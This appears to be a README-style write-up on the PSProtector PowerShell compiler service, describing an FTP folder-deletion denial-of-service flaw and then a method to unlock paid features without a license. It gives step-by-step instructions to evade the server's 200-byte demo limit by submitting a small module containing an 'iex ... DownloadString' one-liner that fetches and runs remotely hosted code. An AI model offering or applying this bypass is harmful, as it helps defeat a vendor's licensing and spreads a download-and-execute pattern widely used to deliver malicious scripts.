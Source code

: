 ***DETAILS***

As mentionned above, the system works by uploading 2 files on the server in the /Input folder. Then waiting for the generated assembly
to be created in the /Output folder.
As of this moment, those 2 folders have read/write permissions from everyone. If some user connects to the server using a client like
WinSCP, or uses any other FTP client, and **DELETE the INPUT DIRECTORY** All the *PsProtector applications* will return an error when attempting
a conversion. The error is **INVALID LOCATION** returned by the FTP server, when the client uploads his files.

To fix this issue, the Input and Output folders would need to be writable by everyone in them, but the folder themselves need to be protected from deletion except from the Administrator.



<br>

-------------------

<br>


## Exploiting unresolved bugs and software vulnerabilities

I did an extensive analysis of PSProtector app, along with the backend service, traffic analysis using [WireShark](https://www.wireshark.org/) and various tests.
This gave me intimate knowledge of how the system works and how to exploit some bugs in order to unlock full functionalities without a license.

<br>
<br>

### Procesing Modules bigger than 200 bytes in Demo mode

Let's begin by addressing the 200 characters limit in demo mode. The restriction is done *both on the client-side and the server-side* which is how it should be, however, the check on the server-side is done **by calculating the size of the file before processing it**. This is a bug because the server should check the size of the **data to be processed**, the script code to be compiled. **Not the content of the script**. You may be confused, but there is a nuance.

We can trick the server into downloading our script. To do this, you need a personal website, or a public [github](https://github.com/) repository.

1. Create a text file containing the module to be compiled. It can be a ```.psm1``` or a ```.txt``` file in case you use a website and you don't have a PSM1 [Mime Type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types) . I personally dumped my PSM1 file in a txt file.
2. Upload your text file to your website, or your [github](https://github.com/) repository. Grab the URL that links to your file.
3. Locally create a ```.psm1``` module file that you will convert with PSProtector. Make it's content like this:

```

    iex ((New-Object System.Net.WebClient).DownloadString(" <url of he file you uploaded> "))

```
